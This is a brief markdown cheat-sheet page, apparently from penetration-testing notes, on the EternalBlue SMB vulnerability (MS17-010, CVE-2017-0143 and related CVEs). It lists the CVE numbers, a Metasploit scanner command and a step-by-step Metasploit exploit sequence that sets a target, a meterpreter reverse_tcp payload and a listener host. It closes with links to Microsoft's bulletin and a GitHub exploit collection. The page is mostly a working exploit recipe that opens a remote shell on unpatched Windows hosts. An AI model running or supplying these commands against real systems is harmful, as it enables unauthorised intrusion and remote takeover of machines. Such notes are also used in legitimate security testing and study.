 ```yaml
---
title : "CVE-2017-0143"
# pre : ' '
description : "EternalBlue exploits a vulnerability in Microsoft's implementation of the Server Message Block (SMB) protocol."
date : 2020-03-23T11:14:37+01:00
# hidden : true
# draft : true
weight : 0
# tags : ['']
---
```


## CVE-2017-0143 | MS17-010

* MS17-010
* CVE-2017-0143
* CVE-2017-0144
* CVE-2017-0145
* CVE-2017-0146
* CVE-2017-0148
* CVE-2017-0147

### Scanner

```plain
msf5 > use auxiliary/scanner/smb/smb_ms17_010
```

### Exploit

```plain
msf5 > use exploit/windows/smb/ms17_010_eternalblue
msf5 > set rhost <target>
msf5 > set payload windows/x64/meterpreter/reverse_tcp
msf5 > set lhost <own-system>
msf5 > run
```

## URL List

- [Docs.microsoft.com](https://docs.microsoft.com/en-us/security-updates/securitybulletins/2017/ms17-010)
- [GitHub](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS17-010)
